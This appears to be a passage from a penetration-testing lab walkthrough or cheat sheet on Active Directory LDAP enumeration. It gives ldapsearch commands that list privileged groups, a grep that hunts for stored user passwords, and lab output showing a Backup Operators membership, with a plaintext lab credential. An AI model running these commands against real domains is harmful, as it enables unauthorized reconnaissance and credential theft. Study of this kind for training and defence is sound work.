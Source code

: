 Extract **Administrators**:
```shell
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **Remote Desktop Group**:
```shell
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

To see if you have access to any password you can use grep after executing one of the queries:
```shell
<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"
```

Please, notice that the passwords that you can find here could not be the real ones...

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

<🔄 Alternative Step>

`ldapsearch -x -H ldap://192.168.56.103/ -D "zximena448@SOUPEDECODE.LOCAL" -w 'internet' -b "dc=SOUPEDECODE,dc=LOCAL" "(sAMAccountName=zximena448)" memberOf`:
```
# extended LDIF
#
# LDAPv3
# base <dc=SOUPEDECODE,dc=LOCAL> with scope subtree
# filter: (sAMAccountName=zximena448)
# requesting: memberOf 
#

# Zach Ximena, Users, SOUPEDECODE.LOCAL
dn: CN=Zach Ximena,CN=Users,DC=SOUPEDECODE,DC=LOCAL
memberOf: CN=Backup Operators,CN=Builtin,DC=SOUPEDECODE,DC=LOCAL ←

# search reference
ref: ldap://ForestDnsZones.SOUPEDECODE.LOCAL/DC=ForestDnsZones,DC=SOUPEDECODE,
 DC=LOCAL

# search reference
ref: ldap://DomainDnsZones.SOUPEDECODE.LOCAL/DC=DomainDnsZones,DC=SOUPEDECODE,
 DC=LOCAL

# search reference
ref: ldap://SOUPEDECODE.LOCAL/CN=Configuration,DC=SOUPEDECODE,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```
